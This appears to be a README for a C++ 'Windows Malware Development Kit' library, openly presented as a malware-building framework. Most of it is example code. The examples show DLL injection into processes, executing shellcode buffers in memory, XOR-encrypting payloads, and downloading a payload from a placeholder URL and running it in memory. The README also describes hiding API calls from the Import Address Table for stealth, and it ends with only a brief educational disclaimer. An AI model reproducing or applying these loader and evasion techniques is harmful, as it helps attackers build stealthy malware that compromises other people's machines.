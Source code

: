 # Windows Malware Development Kit (MDK) - Usage Guide

## Overview
The **Windows Malware Development Kit (MDK)** provides a framework for interacting with Windows processes, memory, hashing, and the Windows registry. This guide covers the core functionality of the framework with practical examples.

### API Evasion
MDK directly resolves API calls instead of linking them at compile-time, preventing them from appearing in the Import Address Table (IAT). This allows for stealthier execution by dynamically locating and invoking functions at runtime.

---

## Installation
Ensure you have the required dependencies set up before using MDK.

```cpp
#include <mdk.h>
```

Link against the necessary libraries when compiling your project.

## Features & Usage

### 1. Process Management
MDK allows interacting with Windows processes and their threads.

#### Example:
```cpp
// Create a new process object
auto process = mdk::process("notepad.exe");

// Access process attributes
process.handle;
process.pid;
process.threads();

// Enumerate process threads
for (mdk::thread thread : process.threads())
{
    // Access thread attributes
    thread.handle;
    thread.tid;
}
```

### 2. DLL Injection and API Calls
MDK supports DLL injection and dynamic function resolution.

#### Example:
```cpp
// Create a new process
auto notepad = mdk::process("Notepad.exe");

// Load a DLL
auto dll = mdk::dll("kernel32.dll");

// Inject the DLL into the process
notepad.inject(&dll);

// Load user32.dll
auto dll = mdk::dll("user32.dll");

// Locate and execute MessageBoxW
(*(void(*)(int, LPCSTR, LPCSTR, int)) dll.find("MessageBoxW"))(0, "Injected Message", "MDK Example", 0);

// Call MessageBoxA from user32.dll (simplifies the above)
dll.call<void>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// Same as above but with explicit typing
dll.call<VOID, INT, LPCSTR, LPCSTR, INT>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// DLL attributes
dll.handle;
dll.name;
dll.size;
```

### 3. Memory Buffers
MDK provides various buffer management functionalities.

#### Example:
```cpp
// Create buffers with different initialization states
auto i = mdk::buffer();       // Single-byte buffer
auto ii = mdk::buffer(32);    // 32-byte uninitialized buffer

// Create a buffer with predefined data
unsigned char shellcode[12] = "\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64";
auto buf = mdk::buffer(&shellcode, 12); // 12-byte initialized buffer

// Access buffer attributes
buf.file;    // Memory-mapped file
buf.handle;
buf.size;

// Execute the buffer in memory
buf.execute();
```

### 4. Encryption and Hashing
MDK allows encrypting buffers using built-in algorithms.

#### Example:
```cpp
// Create an XOR encryption algorithm with a 32-byte key
auto algorithm = mdk::hash::xor_(32);

// Encrypt the buffer in memory
buf.encrypt(&algorithm);
```

### 5. Internet Payload Downloading
MDK enables downloading and executing payloads directly in memory.

#### Example:
```cpp
// Create an internet handler
auto internet = mdk::internet();

// Download payload into a buffer
auto buffer = internet.download("http://example.com/payload", 512);

// Execute the downloaded buffer
buffer.execute();

// Internet attributes
internet.handle;
```

### 6. Registry Manipulation
MDK enables reading and writing to the Windows registry.

#### Example:
```cpp
// Define a buffer containing data to write
unsigned char data[] = "MDK Registry Example";
auto buffer = mdk::buffer(data, sizeof(data));

// Open a registry key
auto registry = mdk::registry(HKEY_CURRENT_USER, "Software\Example");

// Write data to the registry
registry.set("ExampleKey", &buffer);

// Retrieve a registry value
mdk::buffer result = registry.get("Desktop", "Wallpaper");
```

### 7. Static Library Access
MDK statically defines commonly used libraries for minimal memory overhead.

#### Example:
```cpp
// Access predefined libraries
mdk::nt().kernel32;
mdk::nt().wininet;
mdk::nt().advapi32;

// Example: Call GetProcessVersion via kernel32
auto version = mdk::nt().kernel32.call<DWORD>("GetProcessVersion", 0);
```

## Disclaimer
This framework is provided for educational and research purposes **only**. Unauthorized usage for malicious intent is strictly prohibited.


